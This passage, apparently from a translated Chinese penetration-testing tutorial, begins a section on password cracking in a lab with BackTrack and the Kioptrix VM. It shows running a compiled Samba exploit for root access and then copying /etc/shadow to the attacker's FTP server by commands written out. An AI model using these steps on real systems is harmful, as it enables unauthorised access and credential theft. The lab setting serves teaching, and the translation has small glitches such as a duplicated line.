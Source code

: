 在这个时代，人们会假设所有系统都使用多因素身份验证。不幸的是，情况并非如此。即使是所谓的“安全网络”也仍然使用发送明文密码的协议，系统使用的是不安全的加密协议，等等。一项基本技能（如国际象棋中的基本技能：易学难掌握）是破解密码的艺术。我们将从几个简单的例子开始，以巩固这个概念，然后讨论该领域中最优秀的人所使用的一些策略。

## 破解散列

忙碌的用户甚至管理员经常重复使用密码。无论系统在网络上有多重要，一旦您获得密码散列的访问权限，它们应该立即被破解并添加到您现有的任何字典文件中。这可能会节省大量时间。

首先，我们需要从受害者机器中提取一些文件。启动 BackTrack Tester 1 和 Kioptrix 1 级来宾计算机，运行您之前编译的漏洞利用，并向下拉 `passwd`文件，以便我们可以对其运行 Jack。

1.  启动实验室中所有必要的虚拟设备（回溯测试仪 1，Kioptrix）。
2.  运行 `./SambaVuln_10 -b 0 192.168.75.14`。
3.  您现在以 root 用户身份连接到 `kioptrix.level1`。
4.  打开一个新的终端会话并在回溯来宾机器上启动 `pure-ftpd`。
5.  在连接到 Kioptrix 机器的外壳中，使用 FTP 连接回溯机器上的 FTP 服务器：

    ```
    cd /etc

    ```

    ```
    ls

    ```

    ```
    ftp 192.168.75.12 

    ```

    ```
    Password: password 

    ```

    ```
    put shadow 

    ```

    ```
    ls
    exit

    ```

    *   移动到/etc 目录。记住，您不会从受害者机器收到太多反馈。
    *   您应该看到 Kioptrix/etc 目录的目录列表。
    *   输入我们在回溯机器（ftplogin）上的 FTP 服务器上创建的用户名。
    *   输入 FTP 服务器帐户的密码。请稍等片刻，然后键入：
    *   请稍等片刻，然后键入：
    *   您应该会看到目标 FTP 站点的目录列表。
6.  *CTRL + Q* will get you out of the Kioptrix machine.

    ### 注

    您也可以简单地执行 `cat shadow`并用鼠标复制屏幕输出。但是，了解如何从目标计算机中提取文件非常重要，尤其是当文件非常大时。
